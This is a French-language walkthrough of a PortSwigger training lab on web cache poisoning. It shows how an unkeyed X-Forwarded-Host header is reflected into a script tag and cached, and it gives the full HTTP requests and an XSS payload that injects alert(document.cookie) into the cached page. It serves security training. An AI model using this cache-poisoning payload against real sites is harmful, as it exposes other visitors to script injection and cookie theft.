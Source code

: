 # Lab

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header

## Payload

Quand on envoie une requete vers la home page, on voit dans les headers de la réponse :

```
Cache-Control: max-age=30
Age: 0
X-Cache: miss
```

Ce qui nous indique que la home page peut être cachée pendant 30 secondes et que la page n'est pas en cache.

Si on renvoie la même requete, on voit que la page est en cache :

```
Cache-Control: max-age=30
Age: 1
X-Cache: hit
```

Avec `Param Miner`, on va essayer de trouver des paramètres qui ne sont pas utilisés dans la requete.

On trouve que si on envoie le header `X-Forwarded-Host` dans la requête, il est utilisé pour générer dynamiquement une balise `script` dans la page.

```
GET / HTTP/2
Host: 0a45002204eb92208085c608008f00e6.web-security-academy.net
X-Forwarded-Host: test
```

```html	
Cache-Control: max-age=30
Age: 6
X-Cache: hit

...
<script type="text/javascript" src="//test/resources/js/tracking.js"></script>
...
```

Si on poison le cache avec le header `X-Forwarded-Host` avec la valeur `"></script><script>alert(document.cookie)</script>` et qu'on envoie la requête, on obtient :

```html
Cache-Control: max-age=30
Age: 0
X-Cache: miss

...
<script type="text/javascript" src="//"></script><script>alert(document.cookie)</script>/resources/js/tracking.js"></script>
...
```

Et on valide le lab.